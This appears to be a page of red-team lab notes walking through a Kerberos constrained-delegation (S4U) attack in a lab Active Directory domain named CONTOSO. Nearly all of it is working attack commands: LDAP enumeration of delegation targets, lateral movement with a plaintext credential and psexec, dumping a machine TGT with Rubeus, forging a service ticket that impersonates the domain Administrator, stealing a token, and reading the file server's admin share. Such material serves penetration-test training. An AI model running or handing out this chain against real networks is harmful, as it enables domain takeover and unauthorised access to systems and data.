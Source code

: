 # Attack

1.  Search for computers whose msDS-AllowedToDelegateTo attribute is not null.

    ```batch
    ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
    ```


2. Get the UAC value for _lon-ws-1_ to see if the **TRUSTED\_TO\_AUTH\_FOR\_DELEGATION** flag is set.

```batch
ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl
```

```batch
[Convert]::ToBoolean(16781312 -band 16777216)
```

1. Move laterally to _lon-ws-1_.
   2. make\_token CONTOSO\rsteel Passw0rd!
   3. jump psexec64 lon-ws-1 smb
2.  Dump _lon-ws-1_'s TGT.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
    ```
3.  Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /impersonateuser:Administrator /nowrap
    ```
4.  Inject the ticket into a sacrificial logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]
    ```
5. Impersonate the process.
   1. steal\_token \[PID]
6. Verify the ticket has been injected.
   1. run klist
7. Use the ticket to access _lon-fs-1_.
   1. ls \\\lon-fs-1\c$
